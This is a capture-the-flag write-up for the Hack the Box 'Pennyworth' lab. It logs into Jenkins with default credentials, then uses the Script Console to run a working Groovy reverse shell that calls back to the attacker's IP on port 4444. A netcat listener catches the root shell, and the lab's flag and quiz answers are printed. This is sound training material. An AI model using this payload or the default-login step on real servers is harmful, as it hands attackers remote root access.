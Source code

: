 # Pennyworth
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Pennyworth
* Topic: Java, CVE
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym CVE stand for? 
- **Common Vulnerabilities and Exposures**
2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? 
 - **confidentiality, integrity, availability**
3. What is the version of the service running on port 8080? 
- **Jetty 9.4.39.v20210325**
4. What version of Jenkins is running on the target? 
- **2.289.1**
5. What type of script is accepted as input on the Jenkins Script Console? 
- **groovy**
6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? 
- **cmd.exe**
7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux? 
- **ifconfig**
8. What switch should we use with netcat for it to use UDP transport mode? 
- **-u**
9. What is the term used to describe making a target host initiate a connection back to the attacker host? 
- **reverse shell**

---
## Flag:
nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.111.154
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-16 18:07 EDT
Nmap scan report for 10.129.111.154
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Nmap done: 1 IP address (1 host up) scanned in 12.81 seconds
```

We have Jetty running on port 8080. Also, nmap found an entry in /robots.txt.

If we open the page, we see a login page.

![](./attachments/Pasted%20image%2020220417133302.png)

The robots.txt file is simply telling search engines not to index the site.

![](./attachments/Pasted%20image%2020220417133502.png)

We can try some default credentials. 

User:pass `root:password`

![](./attachments/Pasted%20image%2020220417141023.png)

We are in.

Looking around, we find a Script console under the Manage Jenkins tab. It interprets Groovy scripts.

All we have to do now is make a Groovy script that can execute a reverse shell on the server, meaning that the server will try to initiate a shell connection back to us.

![](./attachments/Pasted%20image%2020220417144615.png)

Searching for a payload, we find [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) cheat sheet detailing a reverse shell for Groovy. 

```
String host="10.10.14.15";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We can add

```
Thread.start {
    // Reverse shell here
}
```

To make the reverse shell more stealthy on the target

Before we can execute the payload we need to connect we need to run a netcat listener on port 4444.

Command:

`nc -lvnp 4444`

`l`: Listening mode

`v`: Verbose mode

`p`: Specify port, in this case 4444.

`n`: No DNS. Numeric IP only.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
```

Now we can execute the payload.

It worked, netcat received a connection from the host. We are now logged in as root.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.90.88] 44516
whoami
root
```

![](./attachments/Pasted%20image%2020220417152724.png)

Looking around:

```console
#cd /root
#ls
flag.txt
snap
#cat flag.txt
9cdfb439c7876e703e307864c9167a15
```

We got the final flag.

**Flag:** `9cdfb439c7876e703e307864c9167a15`

---
**Tags:** [[HackTheBox]]